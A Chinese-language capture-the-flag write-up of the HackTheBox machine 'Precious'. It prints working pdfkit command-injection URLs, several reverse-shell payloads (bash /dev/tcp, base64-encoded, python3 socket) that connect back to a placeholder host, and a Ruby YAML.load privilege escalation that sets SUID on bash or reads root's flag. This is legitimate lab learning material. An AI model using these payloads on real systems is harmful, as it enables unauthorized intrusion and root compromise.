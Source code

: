 *Difficulty: Easy*

---

## 扫描

```bash
ports=$(nmap -n -Pn -sS  -p- <ip> --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
nmap -v -n -sC -sV -p ${ports} <ip> -oN Precious.nmap
```

只扫出22、80端口。


## 漏洞分析

22端口（openssh 8.4p1 debian 5+deb11u1 (protocol 2.0)）找了一下似乎无漏洞。

### 80端口

访问网页无显示，URL会跳转到 `precious.htb`，将其加入hosts文件后即可访问。

- 无robots  
- 网页源码无发现  
- 目录枚举无发现  
- 网页功能似乎是将网页转pdf  

#### 研究网页功能

尝试几个网址无特别反应，似乎一定要 `http://` 或 `https://` 开头，且一直报错说不能用remote URL。

*迷茫……看了眼Forum说既然不能用remote那可以试试local……*

尝试本地用python开启http服务，随便建立一个文本，回到网页输入自己的URL。  
会弹网页新标签显示刚刚文本的pdf。  
又试了下将文本改为html，里面插入js的 `alert(1)`。再次访问，弹出pdf顺便js也有反映。不过XSS不大熟，止步于此……

*看Forum的提示，似乎要下载pdf看看属性。*

下载pdf，属性里没找到啥。  
`strings` 命令看到 **pdfkit**，搜了下有[PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)。
        
尝试 `` http://<ip>/?name=#{'%20`sleep 5`'} ``。有效，5秒后会直接显示web根目录下的内容。  


## foothold

- 尝试反弹shell（无效）  
```
http://<ip>/?name=#{'%20\`bash -i >& /dev/tcp/<ip>/<port> 0>&1`'} 
```

- 试一下base64（无效）  
``` 
http://<ip>/?name=#{'%20`echo YmFzaCAtaSA+JiAv......IDA+JjE=|base64 -d`'} 
```  

- 套一层shell执行（无效）  
```
http://<ip>/?name=#{'%20`bash -c "echo YmFzaCAtaSA+JiAv......IDA+JjE=|base64 -d"`'} 
```  

- python3可以  
```
http://<ip>/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`'} 
```

*不过后来回顾的时候，在本地试了一下无效的那几个：*  
*第一个报错：没有那个文件或目录: /dev/tcp/&lt;ip&gt;/&lt;port&gt;。*  
*第二、三个报错：>&: 没有那个文件或目录。*  
*而base64尝试这个可以： `` http://example.com/?name=#{'%20`echo YmFzaCAtaSA+JiAv......IDA+JjE=|base64 -d|bash`'} `` (不能用 `bash -c` ？)*  

*后来才发现下载完pdf后，get shell其实并不必一直用local URL。直接 `` http://example.com/?name=#{'%20`sleep 5`'} `` 也行。*

*以及其实既然 [PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 是ruby的pdfkit漏洞，其实直接找ruby的getshell写法就是了。。。*

get shell后，`id` 是ruby账户。

### 升级为交互式shell

因为本来就是python反弹的bash所以直接：
```bash
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```


## get user flag 

home目录有用户 `henry`，而ruby的家目录 `.bundle/config` 里有其密码。  
转到henry账号，其家目录有flag。


## 提权

`sudo -l` 一般是我首先会尝试的。  
henry的 `sudo -l` 发现有root权限无密码执行 `/usr/bin/ruby /opt/update_dependencies.rb` 

### PoC

`update_dependencies.rb` 脚本里面有load文件的方法就十分让人在意（`YAML.load(File.read("dependencies.yml"))`）  
谷歌：ruby yaml.load file exploit  
找到这篇[PoC文章](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)（文章最下面有github的payload）

复制 `/opt/sample/dependencies.yml` (到家目录)并将payload写入。  
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
``` 
执行后有回显id命令的结果是root。

### 方法1：反弹root shell

注入 `"bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'"`  

- 只有 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1' 的话会有"bad fd"报错。

### 方法2：给bash命令添加SUID

注入 `"chmod +s /bin/bash"`，然后执行 `bash -p` 即可获得附加了root的shell  

- *ref: <https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup>*
- 还不太懂这个 `bash -p` 的原理，留坑

### 方法3：命令执行

后来想想，由于只是单纯拿flag

- 可以直接注入 `"bash"` 拿root shell
- 或者直接注入 `"cat /root/root.txt"` 拿flag


## get root falg

`cat /root/root.txt`

---

## 后记

2022/12/4  
其实算是第一次正经打HTB，以前稍微试了下还是觉得Web渗透知识不够的话有点难。  
主要是看这两天群友讨论Precious，然后也有大佬们给出提示，所以想着既然有提示那么我也想要尝试一下……  

想想这个靶机打了好几个小时，还是有点超出自己的实力范围了。不过回顾起来又觉得其实没那么难，很多知识都有接触过，还是实战经验太少了吧。  
围观群里讨论也学到了很多细节，比如get shell前应该先判断环境（如用 `which python python2 python3`）。自己这次就是乱试了几个偶然用python3反弹到了。  

不过[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)的命令执行似乎有限，有些命令并无/或者自己不知道哪里有回显（如 `id`）。后来搜wp时发现[另一个类似的注入方式](https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup)（`` http://10.10.XX.XX/?name=%20`id` ``），在用local URL时会在网页回显。  
也不知道为何明明看的是同一个[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)，为什么会想到把 `#{}` 删掉……